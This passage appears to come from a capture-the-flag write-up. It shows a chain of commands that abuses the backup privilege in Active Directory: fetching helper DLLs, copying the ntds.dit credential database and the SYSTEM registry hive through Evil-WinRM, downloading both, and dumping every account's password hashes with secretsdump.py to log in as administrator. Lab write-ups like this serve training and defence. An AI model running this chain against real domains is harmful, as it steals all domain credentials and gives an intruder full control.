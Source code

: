## Circumventing the problem

We'll need another tool to bypass this and lucky for us (some might argue we make our own luck), our group privileges allow us to change these permissions! The following compiled ddl files will allow us to copy Ntds.dit (only readable by an Admin):

```bash
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll

wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
```
I know, hard to imagine life without Github!

## Upload and Import

```powershell
*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> copy-filesebackupprivilege z:\windows\ntds\ntds.dit C:\tmp\ntds.dit -overwrite
```

In order to decrypt the NTDS.dit, you need the SYSTEM file as well:

```powershell
*Evil-WinRM* PS C:\tmp> reg save HKLM\SYSTEM C:\tmp\system
```
Download NTDS.dit and SYSTEM:

```powershell
*Evil-WinRM* PS C:\tmp> download ntds.dit

*Evil-WinRM* PS C:\tmp> download system
```

## Dumping the hashes

```bash
secretsdump.py -system system -ntds ntds.dit LOCAL 
```

**Finally! Now we can use the administrator hash to login using winrm and retrieve the final flag**
